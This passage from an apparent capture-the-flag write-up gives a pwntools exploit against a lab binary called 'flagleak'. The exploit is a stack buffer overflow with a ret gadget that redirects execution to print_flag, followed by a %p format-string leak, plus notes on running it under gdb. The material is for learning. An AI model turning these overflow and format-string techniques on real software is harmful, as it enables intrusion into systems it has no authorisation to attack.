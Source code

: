 ```py
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './flagleak'
elf = ELF("flagleak")

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
b* main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = start() #make a connection to the flagleak binary

p.recvline() # recv the line given by the binary
p.send(b"A"*(0x60+8) + p64(0x401016)  +  p64(elf.sym['print_flag']) ) # send a bufferoverflow to the binary to redirect code excecution to print_flag

p.interactive()
```

If you note there, I have added a ret instruction inbetween the print_flag function and rbp. This is to ensure stack alignment issues dont happen.

Ok now set a break point right at the printf function in the print_flag function. To do that change the main to the address of printf in the gdbscript. Running your script in vim is very easy. 

```vim
ESC, :w | !./% GDB NOASLR
```
In the above command we are writing the script with w, running a bash command with ! and excecuting the file ./%. % -> represents the current file. GDB NOASLR -> attachs gdb with ASLR disabled.

```py
p = start()
p.recvline()
p.send(b"A"*(0x60+8) + p64(0x401016)  +  p64(elf.sym['print_flag']) )
p.recvline()
p.sendline("%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-")
p.interactive()
```
